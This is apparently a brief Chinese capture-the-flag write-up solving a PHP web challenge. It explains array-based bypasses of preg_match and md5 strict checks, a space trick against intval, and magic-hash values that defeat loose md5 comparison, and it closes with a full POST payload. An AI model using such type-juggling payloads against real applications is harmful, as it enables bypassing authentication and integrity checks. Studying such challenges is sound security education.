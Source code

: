 ![img](./assets/wps254.jpg)

分析源码

post传入a，b1，b2，c1，c2

![img](./assets/wps255.jpg) 

preg_match数组绕过

intval 空格绕过

![img](./assets/wps256.jpg) 

b1和b2值不相等，但是它们md5值相等

![img](./assets/wps257.jpg) 

C1与c2不等 c1和c2都是或都不是字符串并且c1和c2的md5值相等

==弱类型检验绕过

 

![img](./assets/wps258.jpg) 

 

 

构造payload：

首先a：

a[]数组绕过preg_match

a[]=%201  %20 空格绕过intval（此处可以忽略）

b1和b2：

===md5检验

数组

b1[]=1&b2[]=2

 

c1和c2：

==md5检验

c1=QNKCDZO&c2=240610708

 

 

最终payload：

a[]=%201&b1[]=1&b2[]=2&c1=QNKCDZO&c2=240610708

 

 

得到flag

![img](./assets/wps259.jpg) 

 

 
